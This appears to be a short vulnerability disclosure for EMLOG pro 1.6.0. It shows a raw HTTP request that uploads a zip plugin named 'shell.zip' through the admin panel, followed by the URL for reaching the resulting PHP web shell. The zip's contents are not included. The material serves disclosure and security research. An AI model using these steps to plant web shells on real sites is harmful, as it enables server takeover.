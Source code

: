 # EMLOG_pro_1.6.0（latest version） plugins upload rce vulnerability
### EMLOG download address：https://github.com/emlog/emlog/releases/tag/pro-1.6.0
## 1. Login as admin and upload a plugin (a zip which include a php file)
### payload 
```
POST /emlog/admin/plugin.php?action=upload_zip HTTP/1.1
Host: 192.168.111.155
Content-Length: 876
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.111.155
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOK8HOjtKZalBj6CG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.111.155/emlog/admin/plugin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lq0s731hnlqm232itjlgpc27el; EM_AUTHCOOKIE_jT79impSwTWeimzUBIsgAmv1NoQbG2Zs=admin%7C1695536025%7C848fc865191736412177851eb6082b92
Connection: close

------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="pluzip"; filename="shell.zip"
Content-Type: application/x-zip-compressed

PK
------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="token"

4e1bef9d513bae43a46448cbbaee0db7d1d5f7d1
------WebKitFormBoundaryOK8HOjtKZalBj6CG--
```
![](emlog_01.jpg)

## 2. Active the plugin you uploaded and get a shell!
### payload
```
http://192.168.111.155//emlog/content/plugins/shell/shell.php
```
![](emlog_02.jpg)

